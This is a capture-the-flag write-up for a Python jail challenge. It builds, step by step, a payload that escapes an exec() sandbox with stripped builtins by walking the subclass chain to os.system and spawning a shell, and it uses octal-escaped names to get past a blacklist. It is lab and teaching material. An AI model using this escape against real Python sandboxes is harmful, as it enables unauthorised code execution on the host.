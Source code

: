## Break Mind

<img src="images/chall.png" width=400>

We are given a pyjail where our payload is run against an `exec()` call with no length restrictions, and a simple blacklist is also implemented.  

<img src="images/blacklist.png" width=200>

The more concerning aspect of the jail is the deletion of methods and classes from `__builtins__`, meaning direct access is completely removed.  

<img src="images/delete.png" width=300>

Since no Dockerfile is provided, we have no way of knowing the exact location of the flag file, so the best option is to spawn a shell.  

A pretty common trick to bypass `__builtins__` nukes is to access subclasses through an attribute chain on a tuple.  

```python
().__class__.__base__.__subclasses__()
```

Our target would be the `os.wrap_close` class, as it contains a reference to `__globals__`, which we can use to execute system commands.  

Since `[]` is blacklisted, we can filter and access the class through dictionary comprehension. I'm also using an f-string to get the class name as `str()` has been nuked.  

```python
{'x':x for x in ().__class__.__base__.__subclasses__() if 'wrap_close' in f'{x}'}.get('x')
```

We can use another attribute chain to get a reference to `os.system` and execute `sh`.  

```python
{'x':x for x in ().__class__.__base__.__subclasses__() if 'wrap_close' in f'{x}'}.get('x').__init__.__globals__.get('system')('sh')
```

Bypassing the blacklist is pretty straightforward, as we can simply use octal encoding and `getattr()`.  

```python
getattr(getattr({'x':x for x in getattr(getattr(getattr((), "\137\137\143\154\141\163\163\137\137"), "\137\137\142\141\163\145\137\137"), "\137\137\163\165\142\143\154\141\163\163\145\163\137\137")() if 'wrap_close' in f'{x}'}.get('x'), '\137\137\151\156\151\164\137\137'), "\137\137\147\154\157\142\141\154\163\137\137").get('\163\171\163\164\145\155')('\163\150')
```

Submitting the payload then spawns a shell which reveals the flag file in the current directory.  

<img src="images/flag.png" width=600>
